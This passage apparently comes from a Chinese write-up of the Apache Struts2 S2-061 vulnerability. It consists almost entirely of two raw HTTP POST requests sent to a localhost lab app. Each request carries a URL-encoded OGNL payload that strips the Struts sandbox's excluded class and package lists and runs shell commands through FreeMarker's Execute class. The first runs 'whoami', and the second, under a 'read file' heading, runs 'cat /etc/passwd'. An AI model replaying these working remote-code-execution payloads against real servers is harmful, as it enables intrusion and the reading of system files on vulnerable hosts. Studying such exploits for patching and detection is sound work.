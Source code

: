 ```html
Sec-Fetch-Dest: document
Referer: http://localhost:8080/s2_061_war_exploded/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=79E61355244F9B654BF1EDF344179E2A
Connection: close

name=%25%7B%28%27Powered_by_Unicode_Potats0%2Cenjoy_it%27%29.%28%23UnicodeSec+%3D+%23application%5B%27org.apache.tomcat.InstanceManager%27%5D%29.%28%23potats0%3D%23UnicodeSec.newInstance%28%27org.apache.commons.collections.BeanMap%27%29%29.%28%23stackvalue%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23potats0.setBean%28%23stackvalue%29%29.%28%23context%3D%23potats0.get%28%27context%27%29%29.%28%23potats0.setBean%28%23context%29%29.%28%23sm%3D%23potats0.get%28%27memberAccess%27%29%29.%28%23emptySet%3D%23UnicodeSec.newInstance%28%27java.util.HashSet%27%29%29.%28%23potats0.setBean%28%23sm%29%29.%28%23potats0.put%28%27excludedClasses%27%2C%23emptySet%29%29.%28%23potats0.put%28%27excludedPackageNames%27%2C%23emptySet%29%29.%28%23exec%3D%23UnicodeSec.newInstance%28%27freemarker.template.utility.Execute%27%29%29.%28%23cmd%3D%7B%27whoami%27%7D%29.%28%23res%3D%23exec.exec%28%23cmd%29%29%7D&age=
```

#### 读取文件

```html
POST /s2_061_war_exploded/index.action;jsessionid=79E61355244F9B654BF1EDF344179E2A HTTP/1.1
Host: localhost:8080
Content-Length: 900
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/s2_061_war_exploded/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=79E61355244F9B654BF1EDF344179E2A
Connection: close

name=%25%7B%28%27Powered_by_Unicode_Potats0%2Cenjoy_it%27%29.%28%23UnicodeSec+%3D+%23application%5B%27org.apache.tomcat.InstanceManager%27%5D%29.%28%23potats0%3D%23UnicodeSec.newInstance%28%27org.apache.commons.collections.BeanMap%27%29%29.%28%23stackvalue%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23potats0.setBean%28%23stackvalue%29%29.%28%23context%3D%23potats0.get%28%27context%27%29%29.%28%23potats0.setBean%28%23context%29%29.%28%23sm%3D%23potats0.get%28%27memberAccess%27%29%29.%28%23emptySet%3D%23UnicodeSec.newInstance%28%27java.util.HashSet%27%29%29.%28%23potats0.setBean%28%23sm%29%29.%28%23potats0.put%28%27excludedClasses%27%2C%23emptySet%29%29.%28%23potats0.put%28%27excludedPackageNames%27%2C%23emptySet%29%29.%28%23exec%3D%23UnicodeSec.newInstance%28%27freemarker.template.utility.Execute%27%29%29.%28%23cmd%3D%7B%27cat%20%2f/etc%2f/passwd%27%7D%29.%28%23res%3D%23exec.exec%28%23cmd%29%29%7D&age=
```
